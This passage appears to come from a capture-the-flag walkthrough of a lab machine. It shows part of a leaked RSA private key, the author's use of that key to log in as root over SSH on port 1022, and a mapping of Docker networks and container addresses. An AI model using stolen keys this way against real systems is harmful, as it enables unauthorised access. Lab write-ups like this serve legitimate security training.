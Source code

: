 ```
WlzQp5Cg6YBtQoICugPSPjjRpu3GK6hI/sG9SGzGJVkgS4QIGUN1g3cP0AIFK08c
41xJOikN+oNInsb2RJ3zSHCsQgERHgMdfGZVQNYcKQz0lO+8U0lEEe1zAoGBAPTY
EWZlh+OMxGlLo4Um89cuUUutPbEaDuvcd5R85H9Ihag6DS5N3mhEjZE/XS27y7wS
3Q4ilYh8Twk6m4REMHeYwz4n0QZ8NH9n6TVxReDsgrBj2nMPVOQaji2xn4L7WYaJ
KImQ+AR9ykV2IlZ42LoyaIntX7IsRC2O/LbkJm3bAoGAFvFZ1vmBSAS29tKWlJH1
0MB4F/a43EYW9ZaQP3qfIzUtFeMj7xzGQzbwTgmbvYw3R0mgUcDS0rKoF3q7d7ZP
ILBy7RaRSLHcr8ddJfyLYkoallSKQcdMIJi7qAoSDeyMK209i3cj3sCTsy0wIvCI
6XpTUi92vit7du0eWcrOJ2kCgYAjrLvUTKThHeicYv3/b66FwuTrfuGHRYG5EhWG
WDA+74Ux/ste3M+0J5DtAeuEt2E3FRSKc7WP/nTRpm10dy8MrgB8tPZ62GwZyD0t
oUSKQkvEgbgZnblDxy7CL6hLQG5J8QAsEyhgFyf6uPzF1rPVZXTf6+tOna6NaNEf
oNyMkwKBgQCCCVKHRFC7na/8qMwuHEb6uRfsQV81pna5mLi55PV6RHxnoZ2wOdTA
jFhkdTVmzkkP62Yxd+DZ8RN+jOEs+cigpPjlhjeFJ+iN7mCZoA7UW/NeAR1GbjOe
BJBoz1pQBtLPQSGPaw+x7rHwgRMAj/LMLTI46fMFAWXB2AzaHHDNPg==
-----END RSA PRIVATE KEY-----
```

These look like SSH keys, so we try this on port 22 and 1022.  Port 1022 gives us access with username root.
```
root@kali:/tmp# ssh root@10.10.10.65 -p 1022 -i id_rsa
Last login: Sun Apr 22 17:05:28 2018 from 10.10.14.18
root@ezra:~# id
uid=0(root) gid=0(root) groups=0(root)
```
Container 2: bastion-live
-------------------------------
Not much stands out but lets have a look at the `make_networks.sh` file within the `/containers` folder again:
```bash
#!/bin/bash

# Create isolated network for building containers. No internet access
docker network create -d bridge --subnet=172.24.0.0/24 --gateway=172.24.0.1 --ip-range=172.24.0.0/24 \
 -o com.docker.network.bridge.enable_ip_masquerade=false \
  arieka-test-net

# Crate network for live containers. Internet access
docker network create -d bridge --subnet=172.23.0.0/24 --gateway=172.23.0.1 --ip-range=172.23.0.0/24 \
 arieka-live-net
```

Here I've mapped each of the containers to their IP's on each network and 

- Live Network
     * 172.23.0.11 (convert-live)
           - 8080/tcp
     * 172.23.0.252 (waf-live)
           - 443/tcp
     * 172.23.0.253 (bastion-live)
          - 22/tcp
- Test Network
     * 172.24.0.2 (blog-test)
          - 80/tcp
     * 172.24.0.252 (waf-live)
         - 443/tcp
     * 172.24.0.253 (bastion-live)
          * 22/tcp
